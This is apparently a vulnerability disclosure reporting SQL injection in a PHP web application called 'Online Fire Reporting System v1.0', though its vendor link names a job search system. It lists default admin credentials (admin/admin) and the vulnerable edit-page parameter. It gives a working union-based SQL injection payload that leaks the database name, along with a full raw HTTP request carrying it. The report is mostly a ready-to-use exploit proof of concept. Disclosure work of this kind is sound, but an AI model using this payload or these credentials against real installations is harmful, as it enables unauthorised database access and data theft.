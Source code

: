 # Online Fire Reporting System v1.0  has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/vacancy/index.php?view=edit&id=

Vulnerability location: /eris/admin/vacancy/index.php?view=edit&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/vacancy/index.php?view=edit&id=-1%27%20union%20select%201,2,3,database(),5,6,7,8,9,10,11,12,13--+ // Leak place ---> id

```sql
GET /eris/admin/vacancy/index.php?view=edit&id=-1%27%20union%20select%201,2,3,database(),5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849085-8d0d3c46-e49e-4b85-b4ef-4a7cfdec8428.png)

![image](https://user-images.githubusercontent.com/54017627/170849060-c1e6ef3f-210e-4fd6-b31d-45f433502a5f.png)
